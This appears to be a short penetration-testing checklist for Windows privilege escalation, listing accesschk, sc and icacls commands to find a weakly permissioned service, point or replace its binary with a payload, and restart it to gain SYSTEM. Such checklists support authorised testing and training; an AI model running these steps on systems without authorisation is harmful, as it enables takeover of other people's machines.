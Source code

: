 # Penetration Testing Checklist

A complete Windows checklist to gain SYSTEM through a misconfigured service.

This guide is written in a methodical step-by-step process, it is recommended not skipping steps.&nbsp;
&nbsp;

*Query to list potentially vulnerable services*
```Windows
accesschk.exe -uwcqv *
accesschk64.exe -uqcqv *
```

*Stop the desired service*
```Windows
sc stop {service-name}
```

*Change the service binary path with a created payload*
```Windows
sc config {service-name} binPath= "E:\Service.exe"
```

*Replace the service binary with a created payload*
```Windows
icacls C:\{binary-path}
>> Copy and paste new binary into the above directory
```

*Start the desired service*
```Windows
sc start {service-name}
```
